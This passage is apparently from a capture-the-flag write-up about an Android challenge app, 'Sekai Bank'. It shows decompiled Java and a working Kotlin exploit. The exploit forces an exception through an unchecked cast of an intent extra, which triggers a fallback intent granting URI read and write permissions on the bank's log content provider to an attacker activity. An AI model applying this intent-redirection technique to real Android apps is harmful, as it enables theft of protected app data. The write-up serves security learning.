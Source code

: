### Trigger the exception

To actually make Sekai Bank use our intent, we need to trigger an exception in `handlePinSetupFlow`.

But we still need `this.pinVerified` to be `true`.

So it has to be `setupMainUI();`

```java
private void setupMainUI() {
	if (!this.uiInitialized && !isFinishing() && !isDestroyed()) {
		try {
			ActivityMainBinding inflate = ActivityMainBinding.inflate(getLayoutInflater());
			this.binding = inflate;
			setContentView((View) inflate.getRoot());
			setupWindowInsets();
			setupNavigation();
			this.uiInitialized = true;
		} catch (Exception unused) {
			startAuthActivity();
		}
		Bundle extras = getIntent().getExtras();
		if (extras != null && extras.containsKey("context")) {
			Toast.makeText((Context) extras.getParcelable("context"), "Hello!", 1).show();
		}
	}
}
```

There is an unchecked cast `(Context) extras.getParcelable("context")`, so we can just put some random data in `context` and it should work.

### Heist

```java
val extra = Intent()
extra.setFlags(
	((Intent.FLAG_GRANT_READ_URI_PERMISSION or
			Intent.FLAG_GRANT_PREFIX_URI_PERMISSION or
			Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION or
			Intent.FLAG_GRANT_WRITE_URI_PERMISSION))
)
extra.setClassName(packageName, "com.sekai.heist.LeakActivity")
extra.setData("content://com.sekai.bank.logprovider/".toUri())

val intent = Intent()
intent.setComponent(
	ComponentName(
		"com.sekai.bank",
		"com.sekai.bank.MainActivity"
	)
)

intent.putExtra("context", "ww")
intent.putExtra("fallback", extra)
intent.putExtra("from_pin_setup", true)
this.startActivity(intent)
```
